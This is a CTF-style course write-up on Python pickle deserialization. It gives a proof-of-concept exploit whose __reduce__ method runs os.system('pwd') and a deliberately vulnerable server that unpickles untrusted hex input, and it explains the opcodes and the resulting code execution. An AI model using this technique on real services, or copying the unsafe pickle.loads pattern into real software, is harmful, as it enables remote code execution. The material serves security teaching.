 ```yaml
---
title: Simple Web 0x15.5(Pickle)
tags: [NTUSTWS, CTF, Web]

category: "Security/Course/NTUST WS/Deserialization"
---
```


# Simple Web 0x15.5(Pickle)
###### tags: `NTUSTWS` `CTF` `Web`

## Background - Pickle
Python magic method: `__reduce__`
`__recude__` is used to define what needs to be done when deserializing.
[Web Hacking | 終章【EDU-CTF 2021】](https://youtu.be/73uI7BK8k3g?t=236)

## Source code
:::spoiler `exploit.py`
```python!=
import pickle
import os
import pickletools

class exploit(object):
    def __reduce__(self):
        return (os.system, ('pwd',))
    

serialized = pickle.dumps(exploit())
print(bytes.hex(serialized))
optim_s = pickletools.optimize(serialized)
print(pickletools.dis(serialized))
print(pickletools.dis(optim_s))
```
:::

--- 
:::spoiler server_app.py
```python=
import pickle

serialized = bytes.fromhex(input('Data: '))
pickle.loads(serialized)
```
:::
## Output & Analyze
### In Linux
![](https://i.imgur.com/uYkq006.png)
* `GLOBAL 'posix system'`: import `posix system`(which is a library in linux)
* `BINPUT 0`: put the top stack to position 0 at Memo structure(array)
* `BINUNICODE`: push string 'pwd' to stack top
* `TUPLE1`: let the element of top stack be a tuple type
* <font color="FF0000">`REDUCE`</font>:
    ```
    args = stack.top() # which is 'pwd' in tuple type
    func = stack.top() # which is 'posix system'
    stack.push(func(args)) 
    # then it'll execute os.system('pwd') and push the output to stack
    ```
![](https://i.imgur.com/VqhEs9r.png)

### In Windows
![](https://i.imgur.com/nnWH7Uh.png)
Much similar with the outcome on linux environment.
### Analyze

## How to RCE?
```bash!
$ python exploit.py | python server_app.py
Data: /home/sbk6401/NTUSTWS/deserialization
```
How did it do?
First, `exploit.py` will serialize the exploit function and turned it to `byte.hex` then send it `server_app.py`
Then `server_app.py` will deserialize it and during the process, it'll execute magic method `__reduce__`, suddenly, it'll execute `os.system('pwd')` at the same time → **RCE**